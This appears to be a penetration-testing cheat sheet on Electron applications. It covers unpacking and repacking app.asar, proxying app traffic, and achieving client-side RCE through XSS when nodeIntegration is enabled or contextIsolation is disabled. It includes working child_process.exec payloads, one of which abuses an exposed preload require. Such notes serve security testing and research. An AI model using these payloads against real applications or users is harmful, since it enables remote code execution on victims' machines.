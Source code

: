 **extract the source code** 

```bash
asar extract app.asar <OUT-FOLDER>
```

**repack the source code**

```bash
asar pack <FOLDER> app.asar
```

**proxy an electron application**

Look for `require("electron")` importing to find the global variable, add the next 2 lines below into the code and repack the source code:

```jsx
const electron = require("electron");
const app = electron.app;
app.commandLine.appendSwitch('proxy-server', '127.0.0.1:8080');
```

## 0-click client-side RCE due to disabled isolation

**For more details see the original research:** [**0-click RCE in Electron Applications**](https://shabarkin.medium.com/0-click-rce-in-electron-applications-1c4f81a2cd6b)

Look for `contextIsolation` and `nodeIntegration` options in any renderers ([BrowserWindow](https://www.electronjs.org/docs/latest/api/browser-window), [BrowserView](https://www.electronjs.org/docs/latest/api/browser-view), or [< webview >](https://www.electronjs.org/docs/latest/api/webview-tag)) that loads remote content. 

Prerequisites to straightforward RCE: 

`nodeIntegration` should be set to  `true`  (*Since in Electron version 5.0.0. the undefined* `nodeIntegration` *is set to `false` by default*)

`contextIsolation`  should be set to  `false`  (*Since in Electron version 12.0.0, the undefined `contextIsolation` is set to `true` by default*)

```bash
grep -HanrE "contextIsolation|nodeIntegration"
```

1. If the `nodeIntegration` is set to `true`, an attacker would need to find XSS in the main web application and use the following JS Code to achieve client-side remote code execution: 

```jsx
require("child_process").exec("uname -a",function(error,stdout,stderr){console.log(stdout);});
```

2. If the `contextIsolation` is set to `false`, an attacker would need to find XSS in the main web application and attack the built-in JavaScript functions or `preload:` scripts. 

**#preload_scripts:**

Identify functions in the preload scripts, which may satisfy the attack vector through XSS and use them in the JavaScript code of the malicious payload.

```jsx
#preload.js:
ElectronRequire = require; 
delete require;

#xss_payload:
ElectronRequire("child_process").exec("uname -a",function(error,stdout,stderr){console.log(stdout);});
```
